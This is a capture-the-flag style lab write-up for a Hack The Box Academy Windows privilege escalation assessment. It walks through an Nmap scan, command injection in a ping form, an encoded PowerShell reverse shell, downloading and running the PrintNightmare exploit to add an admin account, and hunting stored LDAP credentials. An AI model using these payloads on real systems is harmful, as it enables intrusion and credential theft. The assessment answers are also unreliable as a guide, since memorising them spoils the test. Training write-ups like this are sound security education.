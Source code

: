 ```yaml
---
title: HTB Academy | Windows Privilege Escalation Skills Assessment I
date: 2023-08-01 18:55:00 -0500
categories: [Writeups, HTB]
tags: [pentest, htb, attack, windows, privilege]
---
```


## Challenge

During a penetration test against the INLANEFREIGHT organization, you encounter a non-domain joined Windows server host that suffers from an unpatched command injection vulnerability. After gaining a foothold, you come across credentials that may be useful for lateral movement later in the assessment and uncover another flaw that can be leveraged to escalate privileges on the target host.

For this assessment, assume that your client has a relatively mature patch/vulnerability management program but is understaffed and unaware of many of the best practices around configuration management, which could leave a host open to privilege escalation.

Enumerate the host (starting with an Nmap port scan to identify accessible ports/services), leverage the command injection flaw to gain reverse shell access, escalate privileges to NT AUTHORITY\SYSTEM level or similar access, and answer the questions below to complete this portion of the assessment.

- Which two KBs are installed on the target system? (Answer format: 3210000&3210060) 
- Find the password for the ldapadmin account somewhere on the system. 
- Escalate privileges and submit the contents of the flag.txt file on the Administrator Desktop. 
- After escalating privileges, locate a file named confidential.txt. Submit the contents of this file. 

## Our Host
`10.10.14.30`

## Target
`10.129.143.15`

## Enumeration

Performed NMAP scan on the target.
```bash
$ sudo nmap 10.129.143.15 -Pnp -A
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-01 17:12 BST
Nmap scan report for 10.129.143.15
Host is up (0.0071s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: DEV Connection Tester
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WINLPE-SKILLS1-SRV
| Not valid before: 2023-07-31T15:26:14
|_Not valid after:  2024-01-30T15:26:14
|_ssl-date: 2023-08-01T16:12:56+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: WINLPE-SKILLS1-
|   NetBIOS_Domain_Name: WINLPE-SKILLS1-
|   NetBIOS_Computer_Name: WINLPE-SKILLS1-
|   DNS_Domain_Name: WINLPE-SKILLS1-SRV
|   DNS_Computer_Name: WINLPE-SKILLS1-SRV
|   Product_Version: 10.0.14393
|_  System_Time: 2023-08-01T16:12:51+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2016 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   12.58 ms 10.10.14.1
2   11.91 ms 10.129.143.15

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.48 seconds
```
RDP protocol was opened. However, we did not have initial credentials. Browsed to HTTP web page, we saw a ping utility with a text entry field and a submit button. We could try to input our injection command:
```bash
ping 127.0.0.1|whoami
```
We got the output showing `iis apppool\defaultapppool`. This confirmed the page was vulnerable to command injection.
Then we could inject our shellcode.
```bash
127.0.0.1|powershell -e JABjAGwAaQBlAG4AdAAgA..<SNIP>...
```
Now we gained a restricted reverse shell. We could run `systeminfo` to gain the details of the OS.
```powershell
PS C:\windows\system32\inetsrv> systeminfo

Host Name:                 WINLPE-SKILLS1-
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00376-30821-30176-AA757
Original Install Date:     5/25/2021, 8:57:43 PM
System Boot Time:          8/1/2023, 8:26:00 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 3,179 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,899 MB
Virtual Memory: In Use:    900 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 2 Hotfix(s) Installed.
                           [01]: KB3199986
                           [02]: KB3200970
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.143.15
                                 [02]: fe80::5da6:b6ab:3cd4:84fb
                                 [03]: dead:beef::5da6:b6ab:3cd4:84fb
                                 [04]: dead:beef::85
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```
We knew that the OS version was 10.0.14393, and patched with KB3199986 and KB3200970.

## Privilege Escalation

There were several exploits we could use. Here we use [CVE-2021-1675 - PrintNightmare LPE (PowerShell)](https://github.com/calebstewart/CVE-2021-1675). Downloaded the `ps1` script on the target.
```powershell
PS C:\users\public\download> wget -Uri http://10.10.14.30:8000/CVE-2021-1675.ps1 -UseBasicParsing -outfile CVE-2021-1675.ps1
```
We could the script to create new account `adm1n`/`P@ssw0rd` in the local admin group.
```powershell
PS C:\users\public\download> Import-Module .\cve-2021-1675.ps1
PS C:\users\public\download> Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` 
```

## Search Credentials
Performed RDP with this new admin account. We then could start search for the credentials.
Searched for `ldapadmin` string on the text file.
```cmd
c:\Users>findstr /SIM /C:"ldapadmin" *.txt *.ini *.cfg *.config *.xml
Administrator\.ApacheDirectoryStudio\.metadata\.plugins\org.apache.directory.studio.connection.core\connections.xml
Administrator\.ApacheDirectoryStudio\.metadata\.plugins\org.apache.directory.studio.connection.ui\dialog_settings.xml
htb-student\.ApacheDirectoryStudio\.metadata\.plugins\org.apache.directory.studio.connection.core\connections.xml
htb-student\.ApacheDirectoryStudio\.metadata\.plugins\org.apache.directory.studio.connection.core\connections.xml-temp
htb-student\.ApacheDirectoryStudio\.metadata\.plugins\org.apache.directory.studio.connection.ui\dialog_settings.xml
```
Opened the first `connections.xml`, we got the password for the `ldapadmin` account.
```xml
<?xml version="1.0" encoding="UTF-8"?>

<connections>
  <connection id="21f81b55-9e67-4f2a-b9e7-1939d662f017" name="LDAP.inlanefreight.local" host="dc01.inlanefreight.local" port="389" encryptionMethod="NONE" authMethod="SIMPLE" bindPrincipal="ldapadmin" bindPassword="XX...X" saslRealm="" saslQop="AUTH" saslSecStrenght="HIGH" saslMutualAuth="false" krb5CredentialsConf="USE_NATIVE" krb5Config="DEFAULT" krb5ConfigFile="" krb5Realm="" krb5KdcHost="" krb5KdcPort="88" readOnly="false" timeout="30000">
   ...<SNIP>...
```
Then searched for `confidential.txt`:
```cmd
c:\Users>dir /s confidential.txt
 Volume in drive C has no label.
 Volume Serial Number is 7029-F417

 Directory of c:\Users\Administrator\Music

06/07/2021  12:41 PM                32 confidential.txt
               1 File(s)             32 bytes

     Total Files Listed:
               1 File(s)             32 bytes
               0 Dir(s)  18,834,948,096 bytes free
```

## References

https://academy.hackthebox.com/module/67/section/637

https://github.com/calebstewart/CVE-2021-1675
